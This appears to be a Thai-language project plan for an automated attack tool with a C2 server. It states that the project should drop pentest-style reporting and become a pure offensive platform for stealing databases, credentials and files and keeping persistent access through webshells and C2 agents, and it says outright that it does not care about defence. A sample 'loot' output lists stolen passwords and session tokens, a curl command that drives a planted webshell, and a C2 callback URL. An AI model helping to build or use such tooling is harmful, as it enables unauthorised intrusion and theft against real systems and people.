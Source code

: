 **วิธีแก้:**
```bash
# Build ทีละ service
docker compose -f docker-compose.production.yml build api
docker compose -f docker-compose.production.yml build c2-server
docker compose -f docker-compose.production.yml build frontend
```

### 2. เป้าหมายที่แท้จริงยังไม่ชัดเจน

**ปัญหา:**
- ระบบปัจจุบันเน้น "Security Testing" / "Pentesting"
- มี Recommendations, Executive Summary (ไม่ต้องการ)
- Report เป็น "Findings" แทน "Loot"

**ต้องการ:**
- ✅ เครื่องมือโจมตีและใช้ประโยชน์ 100%
- ✅ ขโมยข้อมูลจริง (Database, Credentials, Files)
- ✅ Persistent Access (Webshells, C2 Agents)
- ✅ Automated Exploitation
- ❌ ไม่สนใจการแก้ไข / ป้องกัน

---

## 🎯 แผนการพัฒนาต่อ (TODO)

### Phase 1: ปรับเปลี่ยน Mindset (HIGH Priority)

#### 1.1 แก้ไข Report System
**ไฟล์ที่ต้องแก้:**
- `core/report_generator.py` - เปลี่ยนจาก "Findings" เป็น "Loot"
- `core/advanced_reporting.py` - ลบ Recommendations, Executive Summary

**Output ที่ต้องการ:**
```json
{
  "attack_id": "atk_123",
  "target": "example.com",
  "status": "exploited",
  "loot": {
    "database_dump": "/workspace/loot/database.sql",
    "credentials": [
      {"username": "admin", "password": "P@ssw0rd123"},
      {"username": "user1", "password": "qwerty"}
    ],
    "session_tokens": [
      "PHPSESSID=abc123...",
      "auth_token=eyJhbGc..."
    ],
    "files": [
      "/workspace/loot/config.php",
      "/workspace/loot/.env"
    ],
    "webshell": {
      "url": "https://example.com/uploads/shell.php",
      "password": "secret123",
      "access": "curl -X POST https://example.com/uploads/shell.php -d 'cmd=whoami&pass=secret123'"
    },
    "c2_agent": {
      "agent_id": "agent_789",
      "callback_url": "https://our-c2.com/callback",
      "status": "active"
    }
  }
}
```